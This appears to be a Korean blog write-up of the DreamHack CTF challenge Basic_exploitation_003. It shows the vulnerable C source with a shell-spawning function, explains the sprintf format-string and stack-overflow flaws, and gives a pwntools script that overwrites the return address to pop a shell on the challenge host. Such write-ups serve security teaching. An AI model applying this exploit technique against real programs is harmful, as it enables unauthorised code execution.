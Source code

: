 ```yaml
---
layout: post
title: (DreamHack) Basic_exploitation_003
date: 2021-03-05 05:24:00
tags: Security CTF
---
```


## 풀이

이번 문제는 FSB와 BOF가 모두 사용된 문제이다.

``` c
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}
void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}
void get_shell() {
    system("/bin/sh");
}
int main(int argc, char *argv[]) {
    char *heap_buf = (char *)malloc(0x80);
    char stack_buf[0x90] = {};
    initialize();
    read(0, heap_buf, 0x80);
    sprintf(stack_buf, heap_buf);
    printf("ECHO : %s\n", stack_buf);
    return 0;
}
```
#### FSB
sprintf는 입력값의 길이에 대한 검사가 없이 사용되고 있으므로 FSB에 의해 익스플로잇될 수 있다. (앞으로는 sprintf_s를 애용하자)
#### BOF
sprintf를 통해 heap_buf에서 stack_buf의 내용을 바꾸는데 이때 main의 ret 값을 변조시켜 BOF를 일으킬 수 있다.
stack_buf와 ret 사이에 0x98 (stack_buf, *heap_buf) + 0x4 (sfp)만큼의 공간이 존재한다.

``` python
from pwn import *

p = remote("host1.dreamhack.games", 24316)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']

payload = "%156d"
payload += p32(get_shell)

p.send(payload)
p.interactive()
```

위 코드를 통해 쉘을 실행시킬 수 있다.
![image](https://user-images.githubusercontent.com/24788751/110102904-a93a7f80-7de8-11eb-9680-9517a32b104e.png)